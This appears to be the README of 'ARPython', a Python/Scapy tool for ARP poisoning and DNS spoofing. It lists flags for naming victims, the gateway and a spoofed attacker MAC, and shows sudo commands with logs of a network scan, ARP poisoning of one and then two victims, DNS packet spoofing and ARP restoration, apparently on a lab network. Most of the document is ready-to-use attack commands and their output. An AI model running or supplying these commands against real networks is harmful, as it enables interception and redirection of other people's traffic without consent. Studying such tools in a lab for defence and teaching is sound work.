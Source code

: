 # ARPython
An APR and DNS poisoning tool writting in python.

### Requirements

1. Linux based system
2. Python 2.7
3. Scapy installed
4. Python TKinter installed if you want to use the GUI

### Usage

To use the tool you will need to download/clone all the files. If you don't want to use the GUI you can leave the gui.py file out.
This script needs elevated rights for some actions. To launch navigate to the folder and use command `sudo python arppython.py`.
A help command will come up that will be pretty self explanatory. All possible flags will be listed here though.

`-h. --help` - Prints the help screen

`-g, --gui` - Opens the GUI

`-a, --arp {s,silent,n,normal,r,restore}` - Use this command to start ARP poisoning. Specify either the silent or non-silent method or the restore method which will restore the ARP tables

`-d, --dns INTERFACE` - Use this command to start DNS poisoning on the given interface, if used without the ARP spoofing it assumes that you have done or are doing that some other way

`-di, dnsip IP` - Use this command to specify a specific IP to DNS spoof

`-p, --packets AMOUNT` - Specify a custom amount of packets for the normal ARP poison attack

`-vi, --victim VICTIM` - Specify the IP address of the victim

`-gt, --gateway GATEWAY` - Specify the IP address of the gateway to use for the attack

`-vm, --victimmac VICTIMMAC` - Specify the mac address of the victim, can be left blank. If blank the script with grab the mac address from the specified victim IP. If you want multiple victims just separate them by comma and the program will start attacking them simultaneously

`-gm, --gatewaymac GATEWAYMAC` - Specify the mac address of the gateway, can be left blank just as the victim MAC

`-am, --attackermac ATTACKERMAC` - Specify a custom attacker MAC address for the attacker, if left blank the current machines MAC will be used

`-s, --scan` - Scans which network interfaces are available and prints information about them

`-si, --scaniface IFACE` - Scans a given network interface for active IP and MAC addresses. Just specifying the IP address is enough for this command

`-db, --debug` - Set the logging level to debug

`-vb, --verbose` - Set the logging level to verbose

When the tool is busy it can at any point be interrupted by using `CTRL + C`. All the logging info will also be saved to log.txt where you can see exactly what happened.

### Examples

Some examples to show usage

#####Doing a scan, scan interface and then normal ARP poisoning attack with 5 packets

```buildoutcfg
sudo python arpython.py -s
2019-03-31 22:50:35,567 - INFO - Scanning for interfaces
2019-03-31 22:50:35,569 - INFO - The following interfaces are present: 
2019-03-31 22:50:35,569 - INFO - 10.0.3.0/24, enp0s8
2019-03-31 22:50:35,569 - INFO - 169.254.0.0/16, enp0s3
2019-03-31 22:50:35,569 - INFO - 192.168.56.0/24, enp0s3

sudo python arpython.py -si 192.168.56
2019-03-31 22:50:58,794 - INFO - Matching the interface
2019-03-31 22:50:58,795 - INFO - Scanning for devices
2019-03-31 22:50:58,795 - INFO - Using scapy arping with 192.168.56.0/24 on enp0s3
2019-03-31 22:51:04,040 - INFO - 0a:00:27:00:00:10 192.168.56.1
2019-03-31 22:51:04,040 - INFO - 08:00:27:92:de:10 192.168.56.100

sudo python arpython.py -a n -vi 192.168.56.100 -gt 192.168.56.1 -p 5
2019-03-31 22:53:54,270 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 22:53:54,377 - INFO - 08:00:27:92:de:10
2019-03-31 22:53:54,378 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 22:53:54,473 - INFO - 0a:00:27:00:00:10
2019-03-31 22:53:54,473 - INFO - Starting ARP Poison
2019-03-31 22:53:54,474 - INFO - Start spoofing network on 192.168.56.100
2019-03-31 22:53:54,474 - INFO - Starting iteration 0 for 192.168.56.100
2019-03-31 22:53:54,475 - INFO - Spoofing 192.168.56.100
.
.
2019-03-31 22:54:02,907 - INFO - Starting iteration 4 for 192.168.56.100
2019-03-31 22:54:02,908 - INFO - Spoofing 192.168.56.100
2019-03-31 22:54:05,028 - INFO - Done spoofing

sudo python arpython.py -a r -vi 192.168.56.100 -gt 192.168.56.1
2019-03-31 23:05:54,418 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 23:05:54,553 - INFO - 08:00:27:92:de:10
2019-03-31 23:05:54,553 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 23:05:54,637 - INFO - 0a:00:27:00:00:10
2019-03-31 23:05:54,638 - INFO - Starting ARP Restore
2019-03-31 23:05:54,640 - INFO - Starting ARP restoration for 192.168.56.100
2019-03-31 23:05:54,758 - INFO - Restoration successful
```

#####ARP spoofing two targets and also applying DNS spoofing
```buildoutcfg
sudo python arpython.py -a n -vi "192.168.56.101,192.168.56.102" -gt 192.168.56.1 -d enp0s3
2019-04-08 16:11:48,385 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-04-08 16:11:48,562 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-04-08 16:11:48,650 - INFO - Starting ARP Poison
2019-04-08 16:11:48,651 - INFO - Start spoofing network on 192.168.56.101
2019-04-08 16:11:48,652 - INFO - Start spoofing network on 192.168.56.102
2019-04-08 16:11:48,652 - INFO - Starting iteration 0 for 192.168.56.101
2019-04-08 16:11:48,652 - INFO - Starting iteration 0 for 192.168.56.102
2019-04-08 16:11:48,653 - INFO - Spoofing 192.168.56.102
2019-04-08 16:11:48,653 - INFO - Spoofing 192.168.56.101
2019-04-08 16:11:50,654 - INFO - Starting DNS spoofing
2019-04-08 16:11:50,787 - INFO - Starting iteration 1 for 192.168.56.101
2019-04-08 16:11:50,787 - INFO - Spoofing 192.168.56.101
2019-04-08 16:11:50,842 - INFO - Starting iteration 1 for 192.168.56.102
2019-04-08 16:11:50,843 - INFO - Spoofing 192.168.56.102
.
.
2019-04-08 16:11:55,123 - INFO - Spoofing 192.168.56.102
2019-04-08 16:11:56,826 - INFO - Packet found. Spoofing DNS packet
2019-04-08 16:11:56,882 - INFO - Sending altered packet
2019-04-08 16:11:57,155 - INFO - Starting iteration 4 for 192.168.56.101
2019-04-08 16:11:57,155 - INFO - Spoofing 192.168.56.101
2019-04-08 16:11:57,262 - INFO - Starting iteration 4 for 192.168.56.102
2019-04-08 16:11:57,262 - INFO - Spoofing 192.168.56.102
.
.
2019-04-08 16:12:13,996 - INFO - Done spoofing
2019-04-08 16:12:14,132 - INFO - Done spoofing
2019-04-08 16:12:57,453 - INFO - Packet found. Spoofing DNS packet
2019-04-08 16:12:57,518 - INFO - Sending altered packet
2019-04-08 16:12:57,518 - INFO - DNS Spoofing stopped
2019-04-08 16:12:57,518 - INFO - DNS Spoofing stopped

```